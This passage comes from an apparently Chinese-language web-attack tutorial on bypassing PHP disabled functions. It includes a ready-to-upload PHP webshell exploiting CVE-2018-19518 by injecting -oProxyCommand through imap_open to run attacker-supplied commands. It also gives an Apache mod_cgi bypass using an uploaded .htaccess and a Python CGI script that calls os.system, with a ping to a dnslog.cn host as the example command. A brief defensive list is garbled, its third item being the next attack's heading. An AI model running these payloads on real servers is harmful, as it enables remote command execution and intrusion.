 2.  php.ini 中开启 imap.enable_insecure_rsh 选项为 On。
    

**利用原理：**

imap_open 函数在将邮箱名称传递给 rsh 或 ssh 命令之前没有正确地过滤邮箱名称。如果启用了 rsh 和 ssh 功能并且 rsh 命令是 ssh 命令的符号链接，可以发送包含 - oProxyCommand 参数的恶意 IMAP 服务器名称来利用此漏洞。

上传 imap_bypass.php：

```
<?php  
error_reporting(0);  
if (!function_exists('imap_open')) {  
die("no imap_open function!");  
}  
$server = "x -oProxyCommand=echot" . base64_encode($_GET['cmd'] .
">/tmp/cmd_result") . "|base64t-d|sh}";  
//$server = 'x -oProxyCommand=echo$IFS$()' . base64_encode($_GET['cmd'] .
">/tmp/cmd_result") . '|base64$IFS$()-d|sh}';  
imap_open('{' . $server . ':143/imap}INBOX', '', ''); // or
var_dump("nnError: ".imap_last_error());  
sleep(5);  
echo file_get_contents("/tmp/cmd_result");  
?>
```

**利用效果：**

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54Tica43LSHVty1URiaAOYVkkBVN7icV2lwRcoD2sI9mHPpeOFuq0glDGdnmMFNPibyUzyZOyufqxebXA/640?wx_fmt=png)

**防御方法：**

1.  如果业务没有用到 imap 相关的函数可以在 php.ini 添加禁用函数：imap_open()、imap_mail()、imap_rimap()
    
2.  升级 PHP 版本，官方针对 7.1.x 在 7.1.25 版本发布时修复了 CVE-2018-19518 漏洞
    
3.  利用 Apache mod_cgi 模式绕过 php.ini 中的限制
    

**环境要求：**

1.apache 服务加载了 cgi_module 模块，在 apache 的配置文件中有如下内容：LoadModule cgi_module modules/mod_cgi.so

2. 当前目录可以上传并解析. htaccess 文件，配置文件中应该写了 “AllowOverride all”

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54Tica43LSHVty1URiaAOYVkkt1yEmjhY6ZWS0pWTR3RCVic72Z6o27YAKCDz0cMbL2dmkNbyicyasdnA/640?wx_fmt=png)

3. 环境中安装了 python（其他语言环境也可以尝试）。

**利用原理：**

看到这里我估计大家都想到了，没错就是通过修改. htaccess 文件让 CGI 解析 python 脚本执行系统命令。

.htaccess 内容如下：

```
AddHandler cgi-script .x
```

```
Python.x内容如下：

\#!F:\\Python38\\python.exe

import os

os.system("ping hbztiu.dnslog.cn")\#参数改为想要执行的命令
```
